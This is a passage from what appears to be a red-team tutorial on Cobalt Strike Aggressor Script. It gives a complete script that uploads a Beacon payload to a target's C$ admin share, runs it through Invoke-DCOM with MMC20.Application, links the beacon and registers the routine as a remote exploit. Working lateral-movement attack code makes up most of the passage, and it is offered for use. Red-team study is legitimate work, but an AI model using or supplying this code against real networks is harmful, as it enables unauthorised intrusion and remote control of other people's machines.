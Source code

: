 > **Note**: `$+` is used for concat strings (Blank spaces are needed).

Finally [https://download.cobaltstrike.com/aggressor-script/functions.html#bpowerpick](bpowerpick) can execute the `Invoke-DCOM` oneliner. We need to pass it the target computer name and the path to the uploaded payload. Also beacuse, this could be a P2P payload and we want to automatically try and link to it, which can be done with [https://download.cobaltstrike.com/aggressor-script/functions.html#beacon_link](beacon_link).

```c
# run via powerpick
bpowerpick!($1, "Invoke-DCOM -ComputerName $+ $2 $+ -Method MMC20.Application -Command C:\\Windows\\Temp\\beacon.exe", $oneliner);

# link if p2p beacon
beacon_link($1, $2, $3);
```

The complete script:

```c
sub invoke_dcom
{
    local('$handle $script $oneliner $payload');

    # acknowledge this command1
    btask($1, "Tasked Beacon to run " . listener_describe($3) . " on $2 via DCOM", "T1021");

    # read in the script
    $handle = openf(getFileProper("C:\\Tools", "Invoke-DCOM.ps1"));
    $script = readb($handle, -1);
    closef($handle);

    # host the script in Beacon
    $oneliner = beacon_host_script($1, $script);

    # generate stageless payload
    $payload = artifact_payload($3, "exe", "x64");

    # upload to the target
    bupload_raw($1, "\\\\ $+ $2 $+ \\C$\\Windows\\Temp\\beacon.exe", $payload);

    # run via powerpick
    bpowerpick!($1, "Invoke-DCOM -ComputerName  $+  $2  $+  -Method MMC20.Application -Command C:\\Windows\\Temp\\beacon.exe", $oneliner);

    # link if p2p beacon
    beacon_link($1, $2, $3);
}

beacon_remote_exploit_register("dcom", "x64", "Use DCOM to run a Beacon payload", &invoke_dcom);
```

# Beacon Object Files
